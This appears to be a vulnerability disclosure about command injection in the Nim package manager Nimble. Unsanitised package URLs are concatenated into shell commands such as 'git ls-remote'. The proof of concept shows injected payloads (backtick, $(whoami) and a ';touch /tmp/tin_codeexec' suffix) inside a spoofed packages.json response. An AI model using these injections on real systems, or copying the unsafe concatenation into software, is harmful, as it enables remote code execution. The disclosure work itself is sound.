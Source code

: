 `doCmd*` is called in various places. One of it being `checkUrlType(string url)` ([here](https://github.com/nim-lang/nimble/blob/b3abee937dad1012493a195c6c3531693caf8f7c/src/nimblepkg/download.nim#L137)) which is called by `getDownloadInfo()` ([here](https://github.com/nim-lang/nimble/blob/83eb194d9ba20fdfc8d0905acd4bda5c4e19e542/src/nimble.nim#L481)). `checkUrlType` takes the `url` from the package metadata and this `url` may contain harmful sequences.

```nim
var url = parseUri("https://google.com/`whoami`$(whoami);whoami")  # this parses just fine
```

and may end up in one of the many calls to `doCmd`:

```nim
proc checkUrlType*(url: string): DownloadMethod =
  ## Determines the download method based on the URL.
  if doCmdEx("git ls-remote " & url).exitCode == QuitSuccess:
...
```

Here's one PoC to directly execute shell commands:

1) Intercept client to provide a malicious `package.json` (similar setup to what is outlined in the Proof of Concept section)

**Note** `url` has a trailing shell command.

```
GET /nim-lang/packages/raw/master/packages.json HTTP/1.1
Host: github.com
Connection: Keep-Alive
content-length: 0
user-agent: Nim httpclient/1.2.4

HTTP/1.1 200 OK
Date: Sun, 18 Oct 2012 10:36:20 GMT
Server: Apache/2.2.14 (Win32)
Content-Length: 420
Content-Type: application/json; charset=iso-8859-1
Connection: Closed

[
  {
    "name": "filesize",
    "url": "https://google.com/;touch /tmp/tin_codeexec",
    "method": "git",
    "tags": [
      "filesize",
      "size"
    ],
    "description": "A Nim package to convert filesizes into other units, and turns filesizes into human readable strings.",
    "license": "MIT",
    "web": "https://github.com/sergiotapia/filesize",
    "doc": "https://github.com/sergiotapia/filesize"
  }
]
```
